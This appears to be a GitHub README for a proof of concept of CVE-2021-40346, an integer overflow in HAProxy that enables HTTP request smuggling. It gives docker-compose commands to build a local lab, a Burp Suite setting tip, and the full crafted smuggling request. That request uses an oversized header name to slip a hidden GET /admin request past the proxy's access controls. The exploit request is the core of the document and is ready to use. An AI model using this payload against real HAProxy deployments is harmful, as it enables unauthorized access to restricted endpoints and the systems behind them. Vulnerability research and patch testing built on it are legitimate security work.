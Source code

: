 # CVE-2021-40346-POC #

CVE-2021-40346 integer overflow enables http smuggling


## Build ##
```sh
cd 6-haproxy
docker-compose build 
docker-compose up -d
```

## Burp Suite
Remember to uncheck "update content length" when dealing with Smuggling in Burp! \
![image](https://user-images.githubusercontent.com/31791455/140394586-6a44d0f5-363e-455c-b22b-f619868bcc87.png)


## Exploit ##
Be careful - note that an extra line might break the exploit.
```
POST /guest HTTP/1.1
Host: localhost:10001
Content-Length0aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa:
Content-Length: 23

GET /admin HTTP/1.1
h:GET /guest HTTP/1.1
Host: localhost:10001



```
## Recommended reading:
https://forum.butian.net/share/694
https://jfrog.com/blog/critical-vulnerability-in-haproxy-cve-2021-40346-integer-overflow-enables-http-smuggling/

## Credits:
https://github.com/donky16/CVE-2021-40346-POC



